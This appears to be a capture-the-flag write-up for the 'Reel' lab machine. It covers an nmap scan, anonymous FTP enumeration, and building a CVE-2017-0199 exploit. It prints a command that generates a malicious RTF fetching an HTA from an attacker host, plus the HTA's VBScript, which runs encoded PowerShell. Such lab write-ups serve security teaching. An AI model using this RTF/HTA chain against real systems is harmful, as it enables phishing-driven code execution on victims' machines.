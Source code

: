 143 - Reel
==========

Mandatory nmap scan:
```bash
❯❯❯ sudo nmap -sS --top-ports 1000 10.10.10.77
Starting Nmap 7.70 ( https://nmap.org ) at 2018-07-26 17:57 CEST
Nmap scan report for 10.10.10.77
Host is up (0.064s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
25/tcp open  smtp

Nmap done: 1 IP address (1 host up) scanned in 16.85 seconds
```

On the FTP server, anonymous access is possible, 3 files are on the server:
- AppLocker.docx
- readme.txt
- Windows Event Forwarding.docx

Content of readme.txt:
```
please email me any rtf format procedures - I'll review and convert.

```

In the Windows Event Forwarding.docx we find the author email, `nico@megabank.com`. With this information and some Google research we find a CVE on Windows that is exploitable with RTF files, CVE-2017-0199. There exist a metasploit exploit and a python PoC on Github. I started with the PoC from <https://github.com/bhdresh/CVE-2017-0199> to generate my RTF file:
```bash
❯❯❯ python cve-exploit.py -M gen -t RTF -w rev.rtf -u http://10.10.14.65:8080/custom.hta
Generating normal RTF payload.

Generated rev.rtf successfully
```

Then we need to create the `custom.hta` file. I used a template adapted from <https://securityaffairs.co/wordpress/58077/breaking-news/cve-2017-0199-exploitation-poc.html>:
```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>  
<meta content="text/html; charset=utf-8" http-equiv="Content-Type" />  
<title>Bonjour</title>  
<script language="VBScript">  
    Set a = CreateObject("Wscript.Shell")
    a.Run "powershell -nop -e cABpAG4AZwAgADEAMAAuADEAMAAuADEANAAuADYANQAKAA=="
</script>  
<hta:application id="oHTA" applicationname="Bonjour" application="yes">  
</hta:application>  
</head>
<body>
</body>
</html>
```
